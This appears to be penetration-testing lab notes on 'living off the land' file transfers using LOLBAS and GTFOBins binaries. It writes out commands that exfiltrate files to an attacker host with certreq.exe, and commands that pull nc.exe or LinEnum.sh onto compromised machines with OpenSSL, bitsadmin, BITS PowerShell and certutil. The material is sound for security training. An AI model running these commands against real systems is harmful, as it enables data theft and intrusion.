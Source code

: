 # Living off The Land
## Using the LOLBAS and GTFOBins Project
`LOLBAS for Windows` and `GTFOBins for Linux` are websites where we can search for binaries we can use for different functions.
### LOLBAS
To search for download and upload functions in LOLBAS we can use `/download` or `/upload`.

Let's use `CertReq.exe` as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

**Upload win.ini to our Pwnbox**
```
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
This will send the file to our Netcat session, and we can copy-paste its contents.
**File Received in our Netcat Session**
```
$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
If you get an error when running certreq.exe, the version you are using may not contain the -Post parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins
To search for the download and upload function in GTFOBins for Linux Binaries, we can use `+file download` or `+file upload`.

Let's use `OpenSSL`. It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

**Create Certificate in our Pwnbox**
```
$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
```
**Stand up the Server in our Pwnbox**
```
$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
Next, with the server running, we need to download the file from the compromised machine.
**Download File from the Compromised Machine**
```
$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools
### Bitsadmin Download function
The Background Intelligent Transfer Service (BITS) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

**File Download with Bitsadmin**
```
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
**Download**
```
C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
### Certutil
It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.
**Download a File with Certutil**
```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```